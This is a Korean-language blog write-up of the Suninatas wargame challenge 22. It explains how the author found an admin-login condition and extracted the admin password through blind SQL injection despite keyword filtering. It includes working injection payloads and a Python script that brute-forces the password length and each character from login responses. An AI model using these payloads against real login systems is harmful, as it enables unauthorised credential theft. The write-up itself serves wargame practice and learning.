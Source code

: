 ```yaml
---
title: "Suninatas 22 Write up"
categories: SQLi
tags: [blindsqli, wargame]
---
```


Suninatas 22 Write-Up
---------------------

## 문제 분석

문제에 접속하면 아래와 같은 로그인 창과 필터링 되는 단어들을 확인할 수 있었습니다.
필터링 내용들을 살펴보면 여태까지 봤던 문제 중 가장 많은 것을 볼 수 있었습니다.

![Suninatas_22_Main](https://github.com/Jun-Project-LAB/Jun-Project-LAB.github.io/blob/main/_image/suninatas_22_main.png?raw=true)

문제의 풀이 조건에 대해 알 필요가 있으므로 먼저 개발자 도구를 통해 소스코드를 확인한 결과
 주석에 admin 계정으로 로그인하라는 조건이 있는 것을 찾을 수 있었습니다.

![Suninatas_22_source](https://github.com/Jun-Project-LAB/Jun-Project-LAB.github.io/blob/main/_image/suninatas_22_source.png?raw=true)

따라서 이 문제의 flag는 admin 계정의 password 혹은 로그인 할 경우 얻을 수 있는 것으로 짐작할 수 있었습니다.

또한 테스트하기 위한 계정으로 guest/guest 계정이 있다고 하여 해당 계정을 이용하여 로그인 해보았습니다.

![Suninatas_22_guest](https://raw.githubusercontent.com/Jun-Project-LAB/Jun-Project-LAB.github.io/main/_image/sunintas_22_guest.png)

사진을 보면 알 수 있듯이 OK guest라는 문구가 출력되는 것을 알 수 있었고 로그인에 성공할 경우 OK 라고 뜨는 것을 단서로 하여 blind SQL Injection을 
시도하였습니다.

* * *

## Qeury Statement 작성

SQL Injection에 주로 사용되는 keyword들이 대거 필터링 되었기에 쉽게 풀이에 접근하지 못하였습니다.
제시되어 있는 키워드 이외에도 '(Single Quote), substring과 같은 keyword도 입력하려고 할 경우 no hack이라고 출력되었기에
 해결 방법을 찾지 못하였습니다. 

Null byte 삽입과 같은 방법으로 필터링을 우회할 수 있는 몇 가지 방법을 찾기도 하였으나 이를 공격으로 연계하지를 못하였습니다.
 다른 Write-Up을 찾아본 결과 생각보다 간단한 방법으로 풀이하였는데 한 가지 이해가 되지 않은 부분은 직접 GET 형식에 맞춰 작성한 것과
 id, pw 입력란에 입력한 내용이 필터링 대상이 다른 것이었습니다. 대표적으로 id, pw란에서는 white space가 필터링 대상이었는데 GET 형식으로 
직접 url란에 입력한 경우 white space가 필터링 되지 않았기 때문입니다.

* * *

어찌되었든 해결 방법에 대해서는 알았으므로 자동화 코드의 경우 직접 작성해보았습니다. password의 길이를 알아내는 부분에서 최대 길이를 15로 잡은 것은
 html code 내에서 pw 입력란을 최대 15자로 제한하였기 때문입니다. 코드의 경우 아래와 같이 작성했습니다.

``` python
#!/usr/bin/python

import requests as req

cookies = {"ASP.NET_SessionId":"sbd2hldgbghcshskmhnubw2g", "ASPSESSIONIDSADBSAQD":"ONINCAKAHJGGDDMKBANMGNNP"}
url = "http://suninatas.com/challenge/web22/web22.asp"
maxpass = 15
length = 0
password = ""
parameter = {"pw":"haha"}

for i in range(maxpass):
    parameter['id']="admin' and len(pw)={}-- ".format(i+1)
    response = req.get(url, cookies=cookies, params=parameter)

    if response.text.find("OK") != -1:
        length = i+1
        print("Password length is {}".format(length))

for i in range(1, length+1):
    for j in range(32, 128):
        parameter['id'] = "admin' and substring(pw, {0}, 1)='{1}'--".format(i, chr(j))
        response = req.get(url, cookies=cookies, params=parameter)
        if response.text.find("OK") != -1:
            password += chr(j)

print("admin's password is " + password)
```

session의 경우 자신의 환경에 맞게 변경하여 사용하면 됩니다. 코드를 작성할 때 제대로 값이 출력되지 않아서 잘못 작성한 줄 알았었는데, 
문자를 비교하는 과정에서 이를 ' '로 묶어주지 않아서 숫자 값만 제대로 비교하고 문자 값의 경우 제대로 비교하지 못했던 오류가 있었습니다.
